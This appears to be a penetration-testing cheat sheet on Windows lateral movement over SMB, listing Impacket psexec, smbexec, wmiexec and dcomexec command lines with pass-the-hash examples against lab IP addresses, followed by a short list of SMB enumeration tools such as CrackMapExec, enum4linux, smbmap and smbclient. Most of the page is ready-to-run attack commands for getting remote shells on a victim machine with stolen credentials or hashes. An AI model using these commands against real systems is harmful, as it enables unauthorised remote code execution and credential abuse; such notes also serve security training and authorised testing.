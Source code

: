 ### psexec/smbexec:

* Both options will create a new service in the victim machine and use it to execute an executable over the network.

```python
#If no password is provided, it will be prompted
./psexec.py [[domain/]username[:password]@]<targetName or address>
./psexec.py -hashes <LM:NT> administrator@10.10.10.103 #Pass-the-Hash
psexec \\\\192.168.122.66 -u Administrator -p 123456Ww
psexec \\\\192.168.122.66 -u Administrator -p q23q34t34twd3w34t34wtw34t # Use pass the hash
```

### wmiexec/dcomexec:

* Use the following to stealthily execute command shells without touching the disk or to begin to run a new service using DCOM on port 135:

### wmiexec.py:

```python
#If no password is provided, it will be prompted
./wmiexec.py [[domain/]username[:password]@]<targetName or address> #Prompt for password
./wmiexec.py -hashes LM:NT administrator@10.10.10.103 #Pass-the-Hash
#You can append to the end of the command a CMD command to be executed, if you dont do that a semi-interactive shell will be prompted
```

### dcomexec.py:

```python
#If no password is provided, it will be prompted
./dcomexec.py [[domain/]username[:password]@]<targetName or address>
./dcomexec.py -hashes <LM:NT> administrator@10.10.10.103 #Pass-the-Hash
#You can append to the end of the command a CMD command to be executed, if you dont do that a semi-interactive shell will be prompted
```

## Tools:

CrackMapExec

enum4linux (works for SMB and Samba hosts)

smbmap

* Checks what shares are available
* Reveals permissions information

smbclient

* Used to actively connect to the SMB server
* Allows a user to access the shares allowed by the server

smbmap → smbclient
